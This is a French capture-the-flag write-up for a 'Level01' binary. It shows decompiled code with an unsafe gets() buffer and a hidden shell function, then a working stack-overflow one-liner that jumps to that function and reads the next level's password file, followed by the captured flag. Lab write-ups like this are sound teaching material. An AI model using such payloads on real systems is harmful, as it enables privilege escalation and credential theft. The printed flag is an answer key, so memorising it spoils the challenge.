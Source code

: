 # Rapport CTF - [Level01]

### Observation :
En arrivant sur le level1 on trouve un exécutable nommé level1. \
Quand nous essayons de le lancer, nous pouvons écrire une chaîne de caractère puis le programme ce stop. \
Regardons donc avec gdb ou un decompilateur.


### Explication de Code :
En lancant le binaire dans hex-ray ou ghidra nous obtenons :
```c
//----- (08048444) --------------------------------------------------------
int run()
{
fwrite("Good... Wait what?\n", 1u, 0x13u, stdout);
return system("/bin/sh");
}

//----- (08048480) --------------------------------------------------------
int __cdecl main(int argc, const char **argv, const char **envp)
{
char s[64]; // [esp+10h] [ebp-40h] BYREF

return (int)gets(s);
}
```
On peut voir qu'il existe une fonction `run()` qui permet de /bin/sh avec l'utilisateur level2. \
Malheureusement, cette fonction n'est jamais exécutée, nous devons donc trouver une manière de l'exécuter.

### Solution :

Le but est de lancer la fonction run() pour obtenir un shell avec les droits de l'utilisateur level2
Pour ce faire, il nous suffit de buffer overflow `s` avec plus de 64 octets pour remplacer l'adresse de retour, cela va nous faire jump dans notre fonction `run()`

Pour trouver notre adresse de `run` rien de plus simple nous pouvons regarder notre adresse avec gdb ou regarder hex-ray qui nous l'affiche directement au-dessus de la fonction  `(08048444)`

Comme nous sommes en little endian nous devons donc retourner notre chaîne de caractère pour que le binaire puisse le comprendre. \
Cet iterateur python permet de retourner une string : `[::-1]`

Nous regardons ensuite la stack de notre main avec gdb qui est égal a `0x50u` donc 80 octets, pour écraser l'adresse de notre return, il nous faut donc écrire `80 - 4 = 76` octets random puis notre adresse.

On fait la commande suivante pour obtenir le flag :
```sh
(python -c "print('A' * 76 + '\x08\x04\x84\x44'[::-1])" ; echo "cat /home/user/level2/.pass") | ./level1
```
### Resultat:
```sh
Good... Wait what? 
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```